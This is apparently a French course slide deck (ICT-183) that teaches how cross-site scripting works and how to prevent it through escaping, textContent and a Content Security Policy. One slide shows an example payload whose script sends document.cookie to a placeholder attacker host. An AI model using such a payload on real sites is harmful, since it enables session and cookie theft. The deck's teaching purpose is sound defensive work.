


# Cross-Site Scripting (XSS)

## Faire exécuter du code par le navigateur d'un autre

<div class="pt-12">
  <span class="px-2 py-1 rounded bg-blue-500 text-white">
    ICT-183 - Thématique 06
  </span>
</div>

---

# Les objectifs

À la fin de l'activité, vous serez capables de :

<v-clicks>

- **Expliquer** le principe de fonctionnement d'une faille XSS
- **Connaître** les bonnes pratiques à appliquer pour prévenir une attaque XSS

</v-clicks>

<!--
Faire reformuler aux élèves la définition de cet objectif.
-->

---

# Plan de la présentation

1. **Le principe** - qu'est-ce qu'une attaque XSS, où la trouver
2. **XSS avec stockage** (stored) - le script est enregistré côté serveur
3. **XSS réfléchie** (reflected) - le script voyage dans un lien
4. **Les contre-mesures** - échapper, `textContent`, CSP
5. **Activité** - détecter et corriger deux sites vulnérables

---
layout: section
---

# Partie 1
## Le principe

---

# Définition de l'attaque

**XSS : Cross-Site Scripting**

L'attaquant utilise une plateforme web **vulnérable** pour y faire exécuter un code malicieux.

<v-click>

<div class="mt-4 p-3 bg-red-700 rounded text-red-100">

**Pour quoi faire ?** Faire exécuter (automatiquement ou non) un **script malveillant** à d'autres visiteurs.

</div>

</v-click>

<!--
Le XSS consiste à utiliser une plateforme web vulnérable pour introduire un script malveillant chez les internautes.
L'attaquant injecte son code dans le site légitime : le navigateur de la victime lui fait confiance et l'exécute à chaque visite.
-->

---

# Localiser une faille XSS

Pour trouver une faille XSS, on cherche à **observer et comprendre** ce qu'un utilisateur peut soumettre au serveur :

<v-clicks>

- Paramètres HTTP
- Champs de formulaire
- Cookies

</v-clicks>

<v-click>

Puis on regarde **comment ce contenu est ré-exposé** à l'utilisateur (le même ou un autre) par son client :

- Compréhension côté serveur
- Observation des réponses retournées

</v-click>

<!--
Le réflexe : suivre la donnée. D'où entre-t-elle ? Où ressort-elle dans une page ?
-->

---

# Variations de XSS

<div class="grid grid-cols-3 gap-6 mt-8">
<v-click>
<div class="p-3 bg-blue-800 rounded text-blue-100">

### Stored
Avec stockage

Le script est enregistré (base, fichier) puis servi à tous.

</div>
</v-click>
<v-click>
<div class="p-3 bg-blue-800 rounded text-blue-100">

### Reflected
Réfléchie

Le script est dans la requête (lien) et renvoyé dans la réponse.

</div>
</v-click>
<v-click>
<div class="p-3 bg-blue-800 rounded text-blue-100">

### DOM-based
Basée sur le DOM

Le script est exécuté par le JavaScript du client, sans passer par le serveur.

</div>
</v-click>
</div>

<!--
Faire un schéma au tableau pour les trois variantes. Ce support détaille stored et reflected.
-->

---
layout: section
---

# Partie 2
## XSS avec stockage

---

# Avec stockage : brainstorm

<div class="mt-8 p-4 bg-blue-700 rounded text-blue-300 text-xl">

Quels supports de stockage connaissez-vous pour alimenter votre application web ?

</div>

<v-click>

<div class="mt-6">

Fichier, base de données, session, cookies, ...

</div>

</v-click>

---

# Avec stockage : le scénario



<!--
Le protocole HTTP (et HTTPS) transporte la donnée ; c'est le stockage qui rend l'attaque persistante.
-->

---

# Avec stockage : qu'est-ce que c'est ?

L'attaquant enregistre dans votre base de données le contenu d'un script : balises `<script>` ou surcharge d'attributs comme `onload` / `onerror`.

<div class="grid grid-cols-2 gap-6">
<div>

### Risques potentiels

<v-clicks>

- Injection de code JavaScript dans les données stockées
- Exécution du script **à chaque affichage** des données
- Atteinte à l'intégrité et à la confidentialité

</v-clicks>

</div>
<v-click>
<div>

### Méthodes d'exploitation

- **Écriture non protégée** : le contenu est enregistré sans échappement
- **`innerHTML`** : met à jour le DOM avec du contenu non maîtrisé

</div>
</v-click>
</div>

---

# Exemple de charge utile

```html {1|2|all}
<script>fetch('https://attaquant.example/?c=' + document.cookie)</script>

```

<v-click>

<div class="mt-4 p-3 bg-yellow-600 rounded text-yellow-200">

Le navigateur ne sait pas que ce code vient d'un visiteur : il l'exécute avec les droits **du site**.

</div>

</v-click>

---

# Devinette : que signifie `%20` ?

<v-click>

<details class="mt-8">
<summary>Voir la réponse</summary>

`%20` est le code d'une **espace** dans une URL.

</details>

</v-click>

---

# Les caractères échappés

<v-clicks>

- Modification de caractères ayant potentiellement **un sens dans un langage** de programmation
- **But** : rendre inoffensif un caractère tel que `<`, `>`, `?`, ...
- `%` : symbole d'échappement qui permet au navigateur de comprendre le caractère à transmettre
- `%` est suivi du **code ASCII** en hexadécimal (par exemple `20` = espace)

</v-clicks>

<!--
Demander aux élèves : mais pourquoi fait-on ça ?
-->

---
layout: section
---

# Partie 3
## XSS réfléchie

---

# XSS réfléchie : brainstorm

<div class="mt-8 p-4 bg-blue-700 rounded text-blue-300 text-xl">

Quelle méthode connaissez-vous pour transmettre au serveur une donnée avec un lien ?

</div>

<v-click>

<div class="mt-6">

Les paramètres **GET** dans l'URL : `https://site.example/search?q=valeur`

</div>

</v-click>

---

# XSS réfléchie : le principe



---

# Réfléchie (ex. : surcharge HTTP)

L'attaquant injecte du JavaScript dans les données **transmises au serveur** : requêtes GET / POST, en-têtes HTTP, cookies.

<div class="grid grid-cols-2 gap-6">
<div>

### Risques potentiels

<v-clicks>

- Déclencher un script embarqué dans le lien
- Obtenir les cookies ou la session de l'utilisateur

</v-clicks>

</div>
<v-click>
<div>

### Méthodes d'exploitation

- **Écriture non protégée** de la valeur reçue
- **`innerHTML`** : remplace du code par du contenu malveillant
- **Redirection** vers un site de l'attaquant

</div>
</v-click>
</div>

---
layout: section
---

# Partie 4
## Les contre-mesures

---

# Contre-mesure 1 : échapper les entrées

<div class="p-3 bg-green-700 rounded text-green-200">

**Bonne pratique** : échapper systématiquement toutes les entrées (formulaire ou paramètres GET).

</div>

<v-clicks>

- Avec npm : installer la librairie `escape-html`
- Sinon, en vanilla JS : remplacer `&` `<` `>` `"` `'` par leurs entités HTML

</v-clicks>

<v-click>

```js
const escapeHtml = (s) => s
  .replaceAll('&', '&amp;')
  .replaceAll('<', '&lt;')
  .replaceAll('>', '&gt;')
  .replaceAll('"', '&quot;')
  .replaceAll("'", '&#39;')
```

</v-click>

---

# Contre-mesure 2 : éviter `innerHTML`

<div class="p-3 bg-green-700 rounded text-green-200">

**Bonne pratique** : ne pas atteindre directement le code HTML avec `element.innerHTML`.

</div>

À la place :

<v-clicks>

- Utiliser `textContent`
- Ou créer des éléments enfants et les ajouter (`append`)

</v-clicks>

<v-click>

```js {all|1|2|3-4}
// Dangereux : le contenu est interprété comme du HTML
el.innerHTML = userInput
// Sûr : le contenu est traité comme du texte
el.textContent = userInput
```

</v-click>

---

# Contre-mesure 3 : Content Security Policy

<div class="p-3 bg-green-700 rounded text-green-200">

**Bonne pratique** : mettre en place une **CSP** (Content Security Policy).

</div>

Dans le code HTML (balise `meta`), exemple :

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'">
```

<v-click>

<div class="mt-4 p-3 bg-blue-800 rounded text-blue-100">

`default-src 'self'` : le navigateur refuse tout script qui ne vient pas du site lui-même.

</div>

</v-click>

---
layout: section
---

# Partie 5
## Activité

---

# Activité 1 : détecter et corriger deux sites vulnérables

<v-clicks>

- Document à remplir : [e-183-ALL-XSS.docx](https://etml-inf.github.io/183-SecuriteApplication/exercices/xss/e-183-ALL-XSS.docx) (à répondre directement dedans)
- Consignes, archives et services Docker : [page de la thématique XSS](https://etml-inf.github.io/183-SecuriteApplication/thematiques/06-xss)

</v-clicks>

<v-click>

<div class="mt-6 p-3 bg-yellow-600 rounded text-yellow-200">

Pour chaque site : **exploiter** la faille, **identifier** le type de XSS, puis **corriger** le code.

</div>

</v-click>

---
layout: center
class: text-center
---

# Conclusion

<v-click every=1>

Un XSS naît quand une donnée **non maîtrisée** est ré-affichée comme du **code**.

<div class="pt-12 mb-4">
  <span class="px-4 py-2 rounded bg-blue-500 text-white text-xl">
    Échapper, éviter innerHTML, limiter avec une CSP
  </span>
</div>

# Questions ?

</v-click>
